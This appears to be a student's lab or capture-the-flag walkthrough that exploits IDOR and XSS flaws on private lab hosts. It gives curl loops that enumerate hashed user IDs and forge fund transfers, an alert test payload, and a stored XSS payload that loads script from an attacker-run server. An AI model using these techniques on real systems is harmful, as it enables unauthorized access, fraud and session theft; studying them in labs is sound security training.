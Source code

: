 
**Insecure Direct Object Reference III** 
Used the cmd below. Similar to thee previous cmd, we pipe md5sum utility. 
for i in $(seq 1 100); do curl -s 'http://10.110.28.53/' -H 'Content-Type: application/x-www-form-urlencoded' --data-raw "user_id=$(echo -n $i | md5sum | cut -d' ' -f1)" | grep "User message" -A1; done
![image](https://github.com/ookelvyn/System-attack-and-defense/assets/30266503/db1ef9ef-a458-4b49-9861-3c20c6d7b970)


**Insecure Direct Object Reference IV** 
a.	Created an account with Name: Kel, username: admin and passwd: admin
b.	Started a session with cookie saved on my desktop with the cmd: curl -X POST -d 'username=admin&password=admin --cookie cookie.txt --cookie-jar cookie.txt http://10.110.28.54/login
c.	Created a for loop to transfer funds to the account with cmd:
for i in $(seq 1 100);\
   do curl 'http://10.110.28.54/transfer'\
   -X POST\
   -d "from_account=$i&to_account=24&transfer_sum=1000"\
   --cookie cookie.txt\
   --cookie-jar cookie.txt;\
   done
d.	At this point the account was credited with 2000 but the flag didn’t expose, probably because i didn’t use admin as the account name. So i had to create another account with Name: admin, username: admin1 and passwd: admin
e.	I observed that the account numbers are the serial ID, so I transferred 2000 from kel account to admin account and the flag got revealed
![image](https://github.com/ookelvyn/System-attack-and-defense/assets/30266503/037d26d9-80b2-440d-bc6b-4d636bad8f7e)


## XSS I

We first test for vulnerability on all inputs textboxes on the website.
Entering the script “<script>alert(1)</script>” on textbox in Reset password page gives a response which shows its vulnerable to attack
Inspecting element on textbox in Reset password page reveals the input ID
![image](https://github.com/ookelvyn/System-attack-and-defense/assets/30266503/d913fc83-f71c-4c7b-89db-818097b0662e)


## XSS II
a.	Created a payload called xploit.js with the content as seen in the screenshot.
![image](https://github.com/ookelvyn/System-attack-and-defense/assets/30266503/b5f67a93-3dda-44d3-ab4e-978ea179fa9f)
 

b.	Selected one of the authors in Forum page and inserted the payload “<script src="http://10.110.28.200/xploit.js"></script>” into the author field including a random message
![image](https://github.com/ookelvyn/System-attack-and-defense/assets/30266503/8f1b85a8-865e-4135-8fc1-1eb225189b5d)


c.	Started the python http server with cmd “python -m http.server 80”
![image](https://github.com/ookelvyn/System-attack-and-defense/assets/30266503/4b6ea892-fd7c-49ee-919c-3f49044ce90b)
 